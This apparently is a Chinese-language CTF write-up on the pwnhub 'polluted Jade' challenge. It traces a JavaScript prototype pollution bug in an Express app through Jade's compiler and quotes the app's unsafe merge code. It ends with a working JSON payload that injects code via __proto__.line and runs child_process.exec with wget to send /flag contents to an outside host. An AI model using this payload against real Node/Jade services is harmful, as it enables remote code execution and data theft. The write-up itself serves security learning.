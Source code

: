```yaml
---
title: pwnhub 被污染的Jade
date: 2019-12-30 11:12:03
tags: js
---
```


题目本身不难，但是比较麻烦的就是两点，一是没给代码，后面怎么merge全靠猜，二是题目的cache严重，中间很多测试都被别人干扰，第一天的下午及其严重，基本上开始很多测试都被别人带跑偏了...

下面我就来梳理一下我的正常思路...

<!--more-->

# 题目开始

首先打开题目是比较简单粗暴的模板渲染，再结合题目不难发现题目是node+jade

![image.png-31.6kB][1]

因为我打开题目已经是下午了，所以基本上打开题目就一直都是报错，大概长这样：

![image.png-79.7kB][2]

基本也没什么好猜了，直接能看出来就是js原型链污染

关于js原型链污染的细节这里就不赘述了，可以看下面两篇文章

 - [https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7](https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7)
 - [https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

顺着这样的思路就可以翻翻看jade的代码看看

# 污染jade

在之前文章中提到，我们可以通过污染object来影响js中没有设置的变量属性，首先我们就需要找一个没有被设置过但是却很重要的变量，形似与：

```
if(x.xxxxx){
    x.xxxxx
}
```

这样的代码在jade中非常多

首先顺着代码流程跟到`lib/index.js` 200行

![image.png-109.8kB][3]

 可以看到这里的body直接拼接进了代码，但是这里body是本身有值的，所以顺着跟下去到149行。

 ![image.png-44.7kB][4]

这里是我的第一个思路，通过控制self，然后污染globals，globals会在addwith中直接被拼接进代码中。

这也是为什么我反复吐槽题目没有给代码...因为这条路在我本地环境里是可以走通的，但是在远程你会喜获一个报错，而且我调试了一晚上也不知道怎么修复这个报错...

没办法，因为这里走不下去，所以只能将self设置为true，往下走别的路。

当我们设置为true时，我们能控制的只有js变量，然后我们逐渐跟下去。

往下跟到`lib/compile.js` 60行

![image.png-69.6kB][5]

然后跟入visit函数

![image.png-45.2kB][6]

到这里不难发现可以覆盖line参数，运气比较好的是，到这里就能执行了，事实上往别的路走还有很多能执行的地方。

到这里jade这部分基本已经完成了，剩下的就是在远程中如何执行。

# 回到远程

在成功执行命令之后我们可以拿到远程的代码

```
const express = require('express');
const path = require('path');

const app = express();
var router = express.Router();

app.set('views', path.join(__dirname, 'views'));
app.engine('jade', require('jade').__express);
app.set("view engine", "jade");

app.use(express.json()).use(express.urlencoded({
    extended: false
}));

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}

router.get('/', (req, res, next) => {
    res.render('index', {
        title: 'HTML',
        name: ''
    });
});

router.post('/', (req, res, next) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    res.render('index', {
        title: 'HTML',
        name: copybody.name || ''
    });
});

app.use('/', router)

app.listen(3000, () => console.log('Example app listening on port http://127.0.0.1:3000 !'))
```

不难发现出题人强行写了一个merge，把req.body和`{}`合并导致了原型链污染，所以传递的对象不能是name，这也是坑了我开始的一大个问题。

然后就是覆盖globals会导致谜一样的错误

![image.png-82.2kB][7]

最后也没能找到原因，使用第二条路就比较简单了，直接可以执行

```
{"__proto__":{"self":true,"line":"0, \"\" ));global.process.mainModule.constructor._load('child_process').exec(`wget msocp8.ceye.io?$(cat /flag|base64)`, function(){} );jade_debug.unshift(new jade.DebugItem( 0","filename":"test","title":"test","name":"test"}}
```

![image.png-368.3kB][8]


# 写在最后

其实回顾题目还挺有意思的，只是可惜，jade的官方的范例中没有这种merge的操作，但题目又不给出代码，导致本来调试完成的题目成了远程瞎猜了，不过运气比较好的是，这题的利用不太复杂，如果特别复杂的话可能再配合远程cache这题就没法做了...




[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8wc6ywckycmqv28jdjxoi9vj/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ywtm8z22g8a5zurlh6wb540u/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/huxieo13n6vdw6cwwkacff9b/image.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/aw9blbi9xf4f10ivgcodj0z6/image.png
[5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/297sys9curah7u5md4ny9g2y/image.png
[6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jgn2kebq12an65iz9dhzm6lm/image.png
[7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/aketq6lib1ajm6vb0q7ttijk/image.png
[8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hqmbmrfm57gxpf8koh6ks11j/image.png